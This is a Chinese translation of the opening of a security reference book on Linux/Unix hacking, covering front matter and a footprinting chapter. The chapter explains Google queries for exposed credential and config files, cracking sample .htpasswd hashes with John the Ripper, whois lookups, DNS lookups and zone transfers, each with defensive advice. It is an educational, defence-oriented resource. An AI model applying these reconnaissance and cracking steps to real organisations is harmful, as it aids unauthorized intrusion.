# HackNotes(tm) Linux 与 Unix 安全便携参考手册


## 麦格劳-希尔公司 (The McGraw-Hill Companies)

**McGraw-Hill / Osborne**
2100 Powell Street, 10th Floor
Emeryville, California 94608
U.S.A.

如需安排销售推广、礼品或筹款活动的批量购买折扣，请通过上述地址联系 McGraw-Hill / Osborne。有关美国境外翻译或图书分销商的信息，请参阅本书索引后的国际联系信息页。


献给我的父亲。
献给我的母亲。
以及，献给我的祖母。

## 关于作者
### Nitesh Dhanjani

**Nitesh Dhanjani** 是 Foundstone, Inc. 的信息安全顾问。在 Foundstone 工作期间，Nitesh 参与了为多家财富 500 强公司提供的多种类型项目，包括网络、应用程序、主机渗透和安全评估，以及安全架构设计服务。Nitesh 是 *HackNotes: Network Security Portable Reference* (McGraw-Hill/Osborne, 2003) 以及畅销安全书籍 *Hacking Exposed: Network Security Secrets and Solutions* (McGraw-Hill/Osborne, 2003) 最新版的共同作者。他还为 *Linux Journal* 等众多技术出版物发表过文章。除了著书，Nitesh 还参与编写并教授了 Foundstone 的 “Ultimate Hacking: Expert” 和 “Ultimate Hacking” 安全课程。

在加入 Foundstone 之前，Nitesh 在 Ernst & Young LLP 的信息安全服务部门担任顾问，在 IT 领域为许多重要公司进行攻击和渗透审查。他还为 Ernst & Young LLP 的 eSecurity Solutions 部门开发了专有的网络扫描工具。

Nitesh 毕业于普渡大学，获得计算机科学学士和硕士学位。在普渡大学期间，他参与了 CERIAS 团队（教育、研究、信息保证与安全中心）的众多研究项目。他还负责创建内容并教授 C 和 C++ 编程课程，作为由 IBM、AT&T 和 Intel 赞助项目的一部分通过远程交付。

Nitesh 继续积极参与开源项目、系统编程和 Linux 内核开发。可以通过 *books@dhanjani.com* 与他联系。

## 关于技术审核员
### Robert Clugston

**Robert Clugston** 是 Foundstone 的信息技术安全顾问。他在系统管理、网络安全和 Web 生产工程方面拥有超过六年的经验。Robert 最初加入 Foundstone 是为了设计并保护 Foundstone 的网站，现在专注于为 Foundstone 的客户提供这些服务。在加入 Foundstone 之前，Robert 在一家互联网服务提供商担任系统管理员。他的职责包括部署、维护和保护关键业务系统，包括 Web 服务器、路由器、DNS 服务器、邮件服务器以及其他互联网交付设备/系统。在加入 Foundstone 之前，Robert 还曾短暂担任专门从事 Perl/PHP Web 开发的独立承包商。Robert 持有 Windows NT 的 MSCE 认证。

## 9 日志记录与补丁
- 日志记录
    - 日志文件
    - 日志轮转
    - /var 中的可用空间
- 补丁
- 概要

### 第三部分：专题

## 10 Nessus 攻击脚本语言 (NASL)
- 从命令行运行 NASL 脚本
- 使用 NASL 编写 Nessus 插件
    - 示例漏洞
    - 插件内容
    - 运行插件
- 概要

## 11 无线黑客攻击
- WEP 简介
- 天线
- 常用工具
    - Airsnort
    - Kismet
    - Fata-jack
- 无线网络安全防护
- 概要

## 12 使用 Sharp Zaurus PDA 进行黑客攻击
- Kismet
- Wellenreiter II
- Nmap
- Openmapfe
- Bing
- OpenSSH
- Hping2
- VNC Server
- Keypebble VNC Viewer
- Smbmount
- Tcpdump
- Wget
- ZEthereal
- zNessus
- MTR
- Dig
- Perl
- Zaurus 在线资源
- 概要
- 索引

如果没有许多人的帮助，这本书将无法完成。首先，我要感谢 HackNotes 系列编辑 Mike Horton 给我写这本书的机会。同时感谢 McGraw-Hill/ Osborne 团队的不懈努力，包括 Jane Brownlow、Athena Honore、Betsy Manini 和 Robert Campbell。

非常感谢 Foundstone 的 Robert Clugston，他负责审核本书的技术内容。

还要感谢我的妻子 Deepti，在我撰写本书期间她提供了很多帮助。

## HACKNOTES：系列丛书

McGraw-Hill/Osborne 为安全专业人士创建了一套全新的便携式参考书系列。这些是快速学习手册，页数控制在合理的范围内，旨在成为真正的便携式参考资料。

HackNotes 系列的目标是：
- 提供高质量、浓缩的安全参考信息，使其易于访问和使用。
- 通过向您展示黑客和罪犯如何利用已知方法入侵系统，以及防御黑客攻击的最佳实践，教育您如何保护自己的网络或系统。
- 让初次接触每本书所涵盖的安全主题的人能够快速上手，并提供一个简洁的单一知识源。为此，您可能会发现自己需要反复查阅。

HackNotes 系列书籍的设计使其可以轻松携带或放在电脑包中，而不会增加太多重量，且在使用时不会引起不必要的注意。它们尽可能多地使用图表、表格和项目符号列表，仅在对阐明主题至关重要时才使用屏幕截图。最重要的是，为了让这些便捷的便携参考资料在您忙碌的一天中不至于让您陷入不必要的冗长文字中，我们将写作风格保持得清晰、简洁且直击要点。

## 系列关键元素与图标

无论您是信息安全领域的新手，需要无需翻阅 400 多页即可获得有用的起点和基本事实；无论您是经验丰富的专业人士，深知将手册作为“外挂大脑”的价值，其中包含大量有用的列表、表格和具体细节以便快速确认；还是将其作为对某个不太熟悉的安全主题的便捷参考，HackNotes 系列都将帮助您达成目标。

本书在组织和呈现上尽可能追求逻辑化。采用了紧凑的格式，并设置了页面索引标签以标记主要标题主题。由于“参考中心”包含您希望快速便捷访问的信息和表格，为了方便起见，它被战略性地放置在书正中央的蓝色页面上。

### 视觉提示

全书使用的图标使导航变得非常简单。每项黑客技巧或攻击都用一个特殊的剑形图标标出。

**此图标代表一项黑客技巧或攻击**
获取关于黑客用于入侵漏洞系统的各种技术和战术的详细信息。

每项黑客技巧或攻击在可能的情况下都会配有防御措施，防御措施也有其专属的盾形图标。

**此图标代表对抗黑客技巧和攻击的防御步骤**
获取关于如何防御所呈现的黑客技巧或攻击的简洁细节。

HackNotes 的设计中还使用了其他特殊元素，包含一些与正文分开的小知识点，以便引起您的注意。

**此“i”图标代表信息提醒**，即在阅读特定章节内容时应当记住的知识。

**此火焰图标代表热点项目或重要问题**，不应被忽视，以避免各种陷阱。


## 命令与代码清单

在本书中，用户输入的命令以粗体突出显示，例如：

```bash
# **whoami**
root
```

此外，出现在正文中的常见 Linux 和 Unix 命令及参数通过使用等宽字体来区分，例如：`whoami`。

## 听取您的建议

我们衷心感谢您对我们书籍的关注。希望您觉得这些书既有用又有趣，我们欢迎任何关于如何改进这些书籍的反馈。HackNotes 系列丛书是专门根据您的需求而设计的。请访问 **http://www.hacknotes.com** 获取该系列的更多信息，并随时将您的评论和想法发送至 **feedback@hacknotes.com**。

## 导言

本书将教会您黑客的具体思考方式，以便您可以保护您的 Unix 和 Linux 系统免受其侵害。要学习如何防止系统被攻破，没有其他更好的方法。为了阻止最顶尖黑客的攻击，您需要理解他们的思维过程、技术和战术。

Unix 和 Linux 操作系统强大的特性是一把双刃剑。在大多数情况下，操作系统的内核源代码是免费提供的，管理员甚至可以为了满足需求而修改操作系统的内部结构。但 Unix 和 Linux 这种强大且灵活的特性也带来了巨大的复杂性，从而增加了可能出现误配置的可能性，而误配置很容易使系统处于危险之中。同时，请考虑目前市面上众多的 Unix 变体和 Linux 发行版。每个发行版都捆绑了自己的一套安全策略和配置。例如，某些发行版默认关闭了一组远程服务，而另一些则开启了所有可能的服务，且配置了最宽松的策略。黑客深知管理 Unix 和 Linux 主机的行政复杂性，并且他们非常清楚如何利用这些漏洞。本书将向您展示最狡猾的黑客战术细节，并教会您如何防御。

不必担心黑客会掌握本书中呈现的资料。他们已经知道了。本书的目的是揭露当今黑客使用的战术，以便您学习如何防御。一旦您理解了黑客如何思考以及他们用来入侵系统的多种不同方法，胜算就掌握在您手中。

## 本书结构

本书分为四个主要部分：

### 第一部分：黑客技术与防御

书的第一部分遵循当今黑客所使用的通用黑客方法论。同时，书中也介绍了针对这些章节中所述的所有黑客技术的防御措施。

**第 1 章** 我们首先理解黑客方法论中的第一个逻辑步骤：足迹分析（footprinting）。本章将教会您黑客如何从搜索引擎、注册商记录、DNS 记录等渠道获取公开信息。一旦黑客从公开来源获得了所有可能的信息，他们将转向实际的网络和主机识别与扫描。

**第 2 章** 本章教会您如何确定网络中哪些主机是在线状态，以及它们开放了哪些端口。书中讨论了各种类型的端口扫描方法，以及操作系统识别技术和工具。

**第 3 章** 学习黑客如何识别远程主机上运行的应用程序和服务。本章将向您展示潜在入侵者用来枚举用户名和远程服务的多种不同工具和方法。

**第 4 章** 本章揭露黑客用来获取漏洞主机访问权限的具体工具和战术。学习黑客使用的最狡猾的技术，如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对误配置的漏洞利用、缓冲区溢出以及许多其他软件漏洞。

**第 5 章** 通常，利用特定漏洞会让黑客获得非特权用户或系统账户的访问权限。在这种情况下，黑客的下一个逻辑步骤是获取超级用户（root）权限。本章向您展示黑客尝试获取更高权限的多种不同方式。

**第 6 章** 一旦主机被攻破，黑客会希望隐藏自己的行踪，并确保能够持续且特权地访问该主机。本章向您展示黑客如何通过清理重要日志文件来掩盖踪迹，以及黑客如何将特洛伊木马、后门和 rootkit 安装到被攻破的主机上。

### 第二部分：主机加固

书的第二部分侧重于系统管理员可以采取的多种步骤，以加固默认的系统配置和策略。

**第 7 章** 本章讨论了与加固默认应用程序和服务器配置相关的重要配置问题。强烈建议所有系统管理员考虑本章中提出的建议，以防止入侵者利用薄弱的系统策略和配置。

**第 8 章** 恶意用户和黑客经常利用不当的用户和文件系统权限。本章将向您介绍 Unix 和 Linux 的文件权限，并教会您为了防止因用户和文件系统权限不当而导致系统被攻破而应采取的具体步骤。

**第 9 章** 每个系统管理员都应该强制执行正确的系统事件日志记录。本章教会您如何启用和配置有用的日志服务，以及如何正确设置日志文件的权限以防止其被篡改。同时，及时更新最新的安全补丁也非常重要，本章提供了可以获取这些补丁的厂商网站有用链接。

### 第三部分：专题

书的第三部分汇总了一些令人兴奋的专题，范围从为 Nessus 扫描器编写插件，到无线黑客攻击，以及使用 Zaurus PDA 进行黑客攻击。

**第 10 章** Nessus 是当今最流行的漏洞扫描工具之一。它不仅免费，而且在设计上非常模块化。本章将教会您如何使用 NASL（Nessus 攻击脚本语言）为 Nessus 扫描器编写自定义漏洞检查插件。

**第 11 章** 学习黑客如何渗透 802.11 无线网络。本章向您介绍 WEP 协议的缺陷，并介绍黑客用于利用无线网络的工具。此外，本章还就如何更好地保护无线网络提供了建议和方案。

**第 12 章** Sharp Zaurus PDA 设备运行的是嵌入式版本的 Linux 操作系统。本章向您展示 Zaurus PDA 可用的各种安全工具，以及黑客如何轻松地利用它们渗透进无线网络。

### 参考中心

本节印在蓝色页面上，并置于书的正中间以便快速查阅。如果您需要快速获取关于常用命令、常用端口、在线资源、IP 地址分配以及有用的 Netcat 命令等主题的信息，请记得翻开本书至本章。此外，本节还提供了 ASCII 值和 HTTP 响应表。

## 致读者

为了编写本书，我们投入了巨大的努力。我希望您发现其中的内容具有启发性且实用。最重要的是，我希望您将本书中提供的信息用于正途，以保护您的系统和网络免受最顶尖黑客的侵害。

## 第一部分

### 黑客技术与防御

- 第 1 章 足迹分析
- 第 2 章 扫描与识别
- 第 3 章 枚举
- 第 4 章 远程黑客攻击
- 第 5 章 权限提升
- 第 6 章 隐藏


## 第 1 章
## 足迹分析 (Footprinting)

### 本章内容：

- 搜索引擎
- 域名注册商
- 区域互联网注册机构
- DNS 反向查询
- 邮件交换
- 区域传输
- 路由跟踪 (Traceroute)
- 总结

足迹分析是指使用公开可用方法收集有关目标的初步数据的过程。这些信息可用于更好地了解目标的网络架构。第一章涵盖了收集此类信息的不同方式和技术，包括使用搜索引擎以及域名和网络块注册商。虽然这是黑客方法论中最不吸引人的环节，但足迹分析过程是一个重要的第一步。

## 搜索引擎

搜索引擎可用于寻找可能导向敏感信息的有趣细节和链接。由于查询是在搜索引擎的数据库上执行的，除非直接访问结果 URL，否则在目标 Web 服务器的日志中不会注意到这些查询。

有许多方法可以对敏感数据进行创造性的查询。接下来的章节提供了一些思路。

### 通过招聘信息搜索管理漏洞

许多公司会发布招聘职位，这可以提供大量关于其安全态势的信息。例如，如果一家公司正在积极招聘防火墙专家，那么他们的防火墙配置可能较弱，这一事实为黑客提供了更多关注方向。像 http://www.monster.com/ 这样的简历服务网站是潜在入侵者寻找此类信息的已知场所。

### 搜索 EDGAR

EDGAR（“电子数据收集、分析和检索”）数据库包含有关上市公司的信息。公司收购等细节具有特殊的参考价值，因为大型组织在合并的初始阶段往往在管理网络安全方面存在困难。潜在入侵者还可以使用 EDGAR 数据库收集目标组织的季度和年度报告，这有助于潜在入侵者更好地了解该组织最近的活动。EDGAR 系统的地址是 http://www.sec.gov/edgar.shtml。

### 在日志文件中寻找敏感信息

许多程序被已知会写入特定的日志文件。有时，这些日志文件被意外地放置在 Web 服务器的 Web 根目录下。例如，在 `http://www.google.com/` 上进行类似 “Index of” debug.letter 的查询，将为你提供指向提供 `dead.letter` 文件的 Web 服务器的链接（见图 1-1）。请注意，`dead.letter` 文件是由某些电子邮件客户端在用户取消发送电子邮件时创建的，它可能包含正在编写的邮件的部分内容。该文件以及其他此类日志文件可能会向潜在入侵者提供关键且机密的信息。


**图 1-1.** 由 Web 服务器提供的用户 `dead.letter` 文件内容

还有许多其他著名的可搜索日志文件。其他示例包括 syslog, maillog, spooler, messages, access_log 和 error_log。

### 搜索 Web 服务器统计数据

各种 Web 应用程序被用于向管理员提供 Web 流量统计数据。此类统计数据大多受密码保护，且可能包含机密信息和 URL。搜索引擎可用于寻找配置错误的、提供此类数据的主机。例如，在 http://www.google.com/ 上搜索 "Index of stats" 可能会暴露那些被错误配置为向未认证外部实体提供服务器统计数据的 Web 服务器位置（见图 1-2）。


**图 1-2.** by somecompanyasanexample.com 向全球公开提供的 Web 服务器统计数据

### 定位受保护的数据资源

敏感信息经常被放置在网站名为 “protected”、“secret”、“passwords” 等的目录中。很多时候，这些目录没有密码保护，可以很容易地被搜索到。

举例来说，考虑 Apache Web 服务器，当目录中存在某些配置文件和密码文件时，它通常被配置为提供身份验证。密码文件（通常称为 .htpasswd）不应由 Web 服务器提供。要在互联网上使用 http://www.google.com 搜索此类文件，请执行以下查询： “Index of” .htpasswd。这是一个 .htpasswd 文件的示例：

```
joe:1WjdCijCQwGFA
admin:XrouH05qTM1U.
```

该文件中的密码哈希可以使用 “John the Ripper” 等密码破解工具轻松破解。

```
[bash]$ john .htpasswd
Loaded 2 passwords with 2 different salts (Traditional DES [24/32 4K])
password (joe)
mypass (admin)
guesses: 2 time: 0:00:00:21 (3) c/s: 83610 trying: bly045 - Sist20
```

John the Ripper 可以在 http://www.openwall.com/john/ 获取。

### 通过配置文件寻找敏感信息

当各种包含密码、密钥、用户名、内部 IP 地址和其他敏感数据的配置文件被放置在 Web 根目录下时，各种 Web 服务器可能会错误地将其提供出来。搜索这些文件关键在于知道它们的名字。一个潜在的漏洞文件是 sshd_config，它包含 SSH 服务器的配置信息。潜在入侵者可以使用查询 “Index of” sshd_config 来寻找提供 sshd_config 文件的 Web 服务器。由于此类配置文件包含敏感信息，它们可能会暴露不应被外部实体访问的关键信息。

### 在 Usenet 存档中搜索管理缺陷

新闻组的帖子经常包含可作为攻击者辅助信息的资料。例如，管理员有时会在技术 Usenet 小组中发帖以寻求某些主题的帮助。此类帖子可能会泄露大量信息，并提醒入侵者管理员在配置某些服务时遇到了困难。网站 http://groups.google.com/ 可用于搜索此类揭露信息的帖子。

### 防御搜索引擎暴露漏洞

强烈建议执行以下防御战术，以尽量降低由于搜索引擎暴露敏感信息和 Web 服务器配置错误而带来的风险：

- 不要以可能暴露与安全相关的管理漏洞的方式发布招聘职位。
- 对 Web 服务器配置及其允许提供的数据进行定期审计是一个好主意。如果你有权访问 Web 服务器本身，那么你可以从 Web 根目录内部搜索特定信息。例如，以下命令将列出所有包含单词 "log" 的文件名：

```
ls -alR /var/web-root/html | grep log
```

静态数据中的内容也可以被搜索。要在 Web 根目录包含的文件内容中搜索特定单词（例如 "password"）：

```
grep -R password /var/web-root
```

在无法本地访问 Web 服务器文件系统的情况下，wget 是一个很好的命令行工具，可用于镜像网站。一旦网站内容在本地可用，就可以像上面建议的那样对数据执行 grep。wget 的一个使用示例：

```
wget -m -np http://www.somecompanyasanexample.com/
```

wget 工具可从 http://wget.sunsite.dk/ 获取。

- 必须指导管理员不要在技术新闻组和留言板上使用真实姓名和电子邮件地址发布招聘空缺。

## 域名注册商

单个组织可能在不同地点拥有多个网络。通过执行 “whois” 查询，可以发现与特定组织关联的域名。大多数域名注册商都有一个关联的公共 whois 服务器（监听 69 端口），whois 客户端可以连接到该服务器以查询域名所有者的信息。域名 whois 查询返回的信息包括相关的联系人 (POC) 和 DNS IP 地址，这对于确定目标的网络分布非常有用。

由于域名可以通过众多注册商进行注册，你必须首先查询该域名是在哪个注册商处注册的，然后从相关注册商处查询域名记录。为了查询正确的注册商，必须在公共 whois 服务器 **whois.crsnic.net** 上执行 whois 查询。

> 许多注册商限制接下来的章节中提到的查询类型。如果以下任何查询在某个特定的 whois 服务器上没有得到肯定答复，它们在另一个注册商的 whois 服务器上可能会起作用。

### 通过域名查询域名注册商记录

要查询 `somecompanyasanexample.com`，必须使用命令行 whois 工具（包含在大多数 Unix 和 Linux 发行版中）在 **whois.crsnic.net** 上运行 whois 查询，如下所示：

```
[bash]$ whois -h whois.crsnic.net somecompanyasanexample.com
[whois.crsnic.net]
```

Whois Server Version 1.3

Domain names in the .com, .net, and .org domains can now be registered with many different competing registrars. Go to http://www.internic.net for detailed information.

```
Domain Name: SOMECOMPANYASANEXAMPLE.COM
Registrar: SOME REGISTRAR, INC.
Whois Server: whois.somewhoisserver.com
Referral URL: http://www.someregistrasasanexample.com
Name Server: NS1.SOMEEXAMPLESERVER.NET
Name Server: NS2.SOMEEXAMPLESERVER.NET
Updated Date: 05-nov-2001
```

>>> Last update of whois database: Sat, 11 Jan 2003 17:11:52 EST <<<

上述查询将返回该域名实际注册的注册商及其 whois 服务器。在我们之前的示例中，**somecompanyasanexample** 的注册商 whois 服务器为

**.com 是 whois.somewhoisserver.com。现在，我们必须查询 whois.somewhoisserver.com：**

```bash
[bash]$ whois -h whois.somewhoisserver.com somecompanyasanexample.com
[whois.somewhoisserver.com]
NOTICE AND WARNING BANNER HERE

Registrant:
Lname, Fname (SOMEHANDLE) username@somecompanyasanexample.com
1234 Some St.
Somecity, SOMESTATE 99999
SOME COUNTRY

Domain Name: somecompanyasanexample.com

Administrative Contact, Technical Contact:
Lname2, Fname2 (SOMEHANDLE2) username2@somecompanyasanexample.com
5678 Somether city, St.
Someothercity, SOMESTATE 99999
SOME COUNTRY
(123)456-7890

Record expires on 31-12-2004
Record created on 31-12-2002
Database last updated on 12-Jan-2003 03:44:29 EST.

Domain servers in listed order:

NS1.SOMEEXAMPLESERVER.NET 10.0.0.1
NS2.SOMEEXAMPLESERVER.NET 192.168.1.1
```

### 通过域名前缀查询域名注册商记录

为了搜索以 “somecompany” 开头的域名，可以使用以下查询：

```bash
[bash]$ whois -h whois.crsnic.net "somecompany.*"
[whois.somewhoisserver.com]

Whois server version 1.x

NOTICE AND WARNING BANNER HERE

SOMECOMPANY.COM
SOMECOMPANY.ORG
SOMECOMPANYASANEXAMPLE.COM
SOMECOMPANYTHATDOESNOTEXIST.COM
SOMECOMPANYTHATDOESNOTEXIST.ORG
SOMECOMPANYZZZZ.ORG
```

要筛选出单条记录，请使用 "xxx" 进行查询，其中 xxx 是前述列表中显示的记录之一。如果记录相同，请使用 "=xxx" 进行查询，以获取每条记录的详细显示。

>>> whois 数据库最后更新时间：Sat, 11 Jan 2003 18:00:01 EST

### 通过 Handle 查询域名注册商记录

在 whois 服务器上列出的人员都有一个与之关联的 handle（标识符）。您可以查询特定的 handle 以查找相关的联系信息：

```bash
[bash]$ whois -h whois.somewhoisserver.com "handle SOMEHANDLE"
[whois.somewhoisserver.com]
NOTICE AND WARNING BANNER HERE

Lastname, Firstname (SOMEHANDLE) username@somecompanyasanexample.com
1234 Some St.
Somecity, SOMESTATE 99999
SOME COUNTRY

Database last updated on 12-Jan-2003 03:44:29 EST.
```

### 通过电子邮件查询域名注册商记录

在 whois 服务器上列出的人员通常有一个关联的电子邮件地址。可以通过提供完整的电子邮件地址或其一部分来搜索用户。因此，以下查询：

```bash
whois -h whois.somewhoisserver.com "@somecompanyasanexample.com*"
```

将返回记录中电子邮件地址包含域名 @somecompanyasanexample.com 的个人姓名。

### 防止因域名注册商记录导致的信息泄露

确保在 whois 记录中列出的电子邮件地址后缀域名与您的组织名称不同。这将增加他人通过电子邮件查询来获取您记录的难度。此外，一些域名注册商提供由其提供联系信息替代个人联系信息在 whois 记录中显示的选项。利用这一选项来防止个人联系信息泄露给潜在的入侵者是一个好主意。

## 区域互联网注册机构 (RIR)

与域名类似，组织可以被分配 IP 地址块。可路由的 IP 地址由四个主要的区域互联网注册机构 (RIRs) 分配给组织，如表 1-1 所示。

> 表 1-1 包含了四个主要 RIR 的列表。然而，一些新的 RIR 计划在不久的将来成立。详见 http://www.aso.icann.org/ 获取详情和更新。

> 许多注册商限制了以下章节中提到的查询类型。如果以下任何查询在某个特定的 whois 服务器上没有得到肯定响应，它们在另一个注册商的 whois 服务器上应该可以正常工作。

### 通过公司前缀查询 RIR 记录

要查找由公司名称拥有的记录，可以执行如下 whois 查询：

```bash
whois -h whois.rirwhoisserver.net "companynameprefix"
```

要在 RIR 记录中搜索以 “somecompanyasanexample” 单词开头的公司名称：

```bash
[bash]$ whois -h whois.rirwhoisserver.net "somecompanyasanexample"
Some Company (SOMEC)
Some Company As An Example (SOMECA)
```

`# RIR Whois database, last updated on 2003-01-11 01:00`

| 名称 | Whois 服务器 | 区域 |
| :--- | :--- | :--- |
| 美国互联网数字注册机构 (ARIN) http://www.arin.net/ | whois.arin.net | 北美、部分加勒比地区及赤道以南的非洲 |
| 亚太网络信息中心 (APNIC) http://www.apnic.net/ | whois.apnic.net | 亚太地区 |
| 欧洲 IP 网络协调中心 (RIPE NCC) http://www.ripe.net/ | whois.ripe.net | 欧洲、中东、中亚及赤道以北的非洲国家 |
| 拉丁美洲和加勒比互联网地址注册机构 (LACNIC) http://lacnic.net/ | whois.lacnic.net | 拉丁美洲和加勒比地区 |

**表 1-1. 四个区域互联网注册机构 (RIRs)**

### 通过 IP 地址或网络块查询 RIR 记录

要找出哪个组织是特定 IP 地址块的所有者，请尝试使用以下形式的命令：

```bash
whois -h whois.rirwhoisserver.net ipaddressorblock
```

地址 192.168.1.0/24 属于一个不可路由的已分配 IP 地址块。有关不可路由 IP 范围的更多信息，请参阅 RFC 1918，可通过 http://www.faqs.org/rfcs/rfc1918.html 获取。为了示例目的，我们假设 192.168.1.0/24 是一个有效且可路由的 IP 范围。如果我们尝试在 whois.arin.net 中搜索此块，我们将尝试执行以下查询：

```bash
[bash]$ whois -h whois.arin.net 192.168.1.0
[whois.arin.net]
OrgName: Internet Assigned Numbers Authority
OrgID: IANA

NetRange: 192.168.0.0 - 192.168.255.255
CIDR: 192.168.0.0/16
NetName: IANA-CBLK1
NetHandle: NET-192-168-0-0-1
Parent: NET-192-0-0-0-0
NetType: IANA Special Use
NameServer: BLACKHOLE-1.IANA.ORG
NameServer: BLACKHOLE-2.IANA.ORG
Comment: This block is reserved for special purposes.
 Please see RFC 1918 for additional information.

RegDate: 1994-03-15
Updated: 2002-09-16

OrgTechHandle: IANA-ARIN
OrgTechName: Internet Corporation for Assigned Names and Number
OrgTechPhone: +1-234-567-8900
OrgTechEmail: res-ip@iana.org

# ARIN Whois database, last updated 2003-01-12 20:00
# Enter ? for additional hints on searching ARIN's Whois database.
```

### 通过 Handle 查询 RIR 记录

在 RIR whois 服务器上列出的个人 POC（联系人）和组织都有一个与之关联的 handle。您可以查询特定的 handle 以查找相关的联系信息：

```bash
whois -h whois.rirwhoisserver.com "HANDLE"
```

要搜索 Some-Company-As-An-Example 的 handle (SOMECA)，我们将执行以下操作：

```bash
[bash]$ whois -h whois.rirwhoisserver.net "SOMECA"
[whois.rirwhoisserver.net]

OrgName: Some Company As An Example
OrgID: SOMECA
Address: 1234 Some St.
Country: SOME COUNTRY
Comment:
RegDate: 1998-08-01
Updated: 1998-08-01

# RIR Whois database, last updated on 2003-01-11 01:00
```

### 通过电子邮件查询 RIR 记录

在 whois 服务器上列出的人员通常有一个关联的电子邮件地址。可以通过提供完整的电子邮件地址或其一部分来搜索用户。因此，以下查询将返回电子邮件地址包含域名 @somecompanyasanexample.com 的个人姓名：

```bash
[bash]$ whois -h whois.rirwhoisserver.com "@somecompanyasanexample.com"
[whois.rirwhoisserver.com]
Lname, Fname (LASTFIRST-RIR) username@somecompanyasanexample.com +
(123) 456-7890

# RIR Whois database, last updated on 2003-01-11 01:00
```

### 防止因 RIR 记录导致的信息泄露

在 RIR 记录中列出的电子邮件地址应以一个与您的组织名称不同的域名结尾。这将增加他人通过电子邮件查询来获取您记录的难度。一些 RIR 允许个人和组织联系人使用邮政信箱 (P.O. Box) 地址。应尽可能利用这一选项，以防止个人联系信息泄露给潜在的入侵者。

## DNS 反向查询

DNS 反向查询是指向 DNS 服务器查询与特定 IP 地址关联的主机名。


## 执行 DNS 反向查询

可以使用 `host` 命令执行反向查询：

```bash
[bash]$ host 10.0.0.3
3.0.0.10.in-addr.arpa domain name pointer
room13-payrollftpd.somecompanyasanexample.com.
```

这次查询结果不仅告诉我们该主机可能运行着一个 FTP 服务器，还告知了它的具体位置：13 号房间！

## 防止 DNS 反向查询信息泄露

从前面的示例可以看出，DNS 反向查询可以揭露各种不应向外部用户公开的主机信息。可以采取以下预防措施来最大限度地减少此类信息的泄露：

- 不要分配可能揭露网络主机任何信息的主机名。
- 考虑分配将 IP 地址作为主机名一部分的主机名，例如 `3-0-0-10.somecompanyasanexample.com`。这种方案有助于从管理角度组织可用主机，同时不会向外部实体泄露额外信息。

## 邮件交换 (MAIL EXCHANGE)

为了查明某个组织邮件服务器的主机名和 IP 地址，可以使用命令行工具 `dig` 来查询域名的邮件交换 (MX) 记录：

```bash
[bash]$ dig mx somecompanyasanexample.com
; <<>> DIG 9.2.1 <<>> mx dhanjani.com
;; global options: printcmd
;; Got answer:
; -->HEADER<-- opcode: QUERY, status: NOERROR, id: 1234
;; flags: qr ns aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;somecompanyasanexample.com. IN MX

;; ANSWER SECTION:
somecompanyasanexample.com. 86400 IN MX 10
mail.somecompanyasanexample.com.

;; AUTHORITY SECTION:
somecompanyasanexample.com. 4 IN NS
ns1.someexampleserver.net.

somecompanyasanexample.com. 4 IN NS
ns2.someexampleserver.net.

;; ADDITIONAL SECTION:
ns1.someexampleserver.net. 678 .IN A 10.0.0.1
ns2.someexampleserver.net. 141521 .IN A 192.168.1.1

;; Query time: 102 msec
;; SERVER: 10.1.1.1#53(10.1.1.1)
;; WHEN: Mon Jan 13 04:04:38 2003
;; MSG SIZE rcvd: 141
```

`dig` 命令向我们的 ISP 默认 DNS 服务器 (10.1.1.1) 查询了 `somecompanyasanexample.com` 的 MX 记录，并向我们返回了其邮件服务器：`mail.someexampleserver.com`。

## 区域传输 (ZONE TRANSFERS)

DNS 服务器通常被配置为作为主服务器或次级服务器。采用这种方法是为了提供层级结构和冗余。当次级 DNS 服务器联系主 DNS 服务器以更新其区域信息时，就会发生*区域传输 (zone transfer)*。通过区域传输获得的主机名信息可能会揭露组织中特定主机的角色或位置。通常，主 DNS 服务器的配置错误，导致允许任何主机执行区域传输。

### 使用 host 命令执行区域传输

要尝试对特定组织进行区域传输，需要 DNS 服务器的 IP 地址。如果无法获得此信息，可以尝试对目标域名进行 `whois` 查询，这将提供相关的 DNS IP 地址。一旦获得 DNS 服务器 IP 地址，就可以使用 `host` 命令尝试区域传输：

```bash
host -l domain DNSIP
```

例如：

```bash
[bash]$ host -l somecompanyasanexample.com 10.0.0.1
Using domain server: 10.0.0.1
Name: 10.0.0.1
